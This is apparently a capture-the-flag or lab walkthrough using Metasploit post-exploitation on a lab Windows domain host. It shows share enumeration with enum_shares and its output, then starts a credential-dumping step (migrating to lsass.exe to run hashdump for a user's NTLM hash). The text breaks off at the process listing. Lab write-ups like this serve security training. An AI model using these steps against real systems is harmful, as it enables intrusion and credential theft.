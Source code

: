 System Language : en\_US

Domain : FLASH

Logged On Users : 7

Meterpreter : x86/windows

1. What is the name of the share likely created by the user?

Use the 'post/windows/gather/enum,\_shares' module. Need to background Meterpreter first and sert the SESSION parameter.

CTRL+Z

Background session 1? \[y/N]

msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum\_shares

msf6 post(windows/gather/enum\_shares) > set SESSION 1

msf6 post(windows/gather/enum\_shares) > run

\[\*] Running module against ACME-TEST (10.10.113.225)

\[\*] The following shares were found:

\[\*] Name: SYSVOL

\[\*] Path: C:\Windows\SYSVOL\sysvol

\[\*] Remark: Logon server share

\[\*] Type: DISK

\[\*]

\[\*] Name: NETLOGON

\[\*] Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS

\[\*] Remark: Logon server share

\[\*] Type: DISK

\[\*]

\[\*] Name: speedster

\[\*] Path: C:\Shares\speedster

\[\*] Type: DISK

\[\*]

\[\*] Post module execution completed

1. What is the NTLM hash of the jchambers user?

Need to migrate to the 'lsass.exe' process first, then run 'hashdump'.

meterpreter > ps | grep lsass.exe

Filtering on 'lsass.exe'
